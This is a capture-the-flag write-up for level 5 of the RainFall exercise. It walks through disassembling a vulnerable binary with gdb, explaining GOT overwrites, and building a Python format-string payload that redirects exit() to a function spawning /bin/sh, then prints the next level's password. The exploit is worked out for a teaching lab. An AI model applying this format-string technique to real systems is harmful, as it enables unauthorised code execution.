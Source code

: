 # Level 5

- Once logged in, you will see a binary `level5`

```
[???] ssh level5@localhost -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level5@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

Once running the binary, it does the same thing as level 4.

```
level5@RainFall:~$ ./level5
aaaaaaaaaaaa
aaaaaaaaaaaa
level5@RainFall:~$
```

let's take a look at the assembly:

```
gdb-peda$ info functions
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...
0x080485cc  _fini
``

there are three function declared in the program, so let's take a look at each

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   ebp
   0x08048505 <+1>:	mov    ebp,esp
   0x08048507 <+3>:	and    esp,0xfffffff0
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave
   0x08048510 <+12>:	ret
End of assembler dump.
gdb-peda$
```

```
gdb-peda$ disass n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   ebp
   0x080484c3 <+1>:	mov    ebp,esp
   0x080484c5 <+3>:	sub    esp,0x218
   0x080484cb <+9>:	mov    eax,ds:0x8049848
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:	lea    eax,[ebp-0x208]
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    eax,[ebp-0x208]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.

gdb-peda$ x 0x8049848
0x8049848 <stdin@@GLIBC_2.0>:	0x00000000
gdb-peda$ x/s 0x80485f0
```

```
gdb-peda$ disass o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x18
   0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
gdb-peda$

gdb-peda$ x/s 0x80485f0
0x80485f0:	 "/bin/sh"
```

by decompile the code, on `n` function, the exit() is called, we can replace the address call of `exit()` to `o()`.
Below is the explanation of GOT:
```
ref: https://www.mattandreko.com/2012/02/02/exploit-exercises-protostar-format-4/

What initially caught my eye was the fact that there was a call to “exit()” as well as “_exit()“. This made me think back to my reading, and I realized it was going to be a GOT (Global Offset Table) overwrite on “exit()”. When the program runs for the first time, the GOT is initialized to 0x00000000 for every external function, such as libc functions. The first time it runs that function, it will cache the memory address in the GOT, so that it doesn’t have to ask libc, or the corresponding library each time. If we overwrite the GOT value, we can make it execute arbitrary code instead of that original function. In this case, our victim is “exit()”.
```

The memory address of `exit()` can be acquired by using `objdump`

```
level5@RainFall:~$ objdump -R ./level5

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```

The only thing left is to overrite value `0x080484a4 -> address of o()` into `0x08049838 ->exit()`'s address, by format string explicit used on printf, the same technique used by last problem.

```
Python 3.10.4 (v3.10.4:9d38120e33, Mar 23 2022, 17:29:05) [Clang 13.0.0 (clang-1300.0.29.30)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x080484a4
134513828
>>>
```
We know `0x80484a4` is `134513828` in decimal, that needs to be written on `0x08049838` -> `\x38\x98\x04\x08`


```
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%134513824x%4$n"'; echo "cat /home/user/level6/.pass") | ./level5
```

with waiting priting multiple spaces...

the flage will be given.

```
[...]
                              200
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
level5@RainFall:~$
```
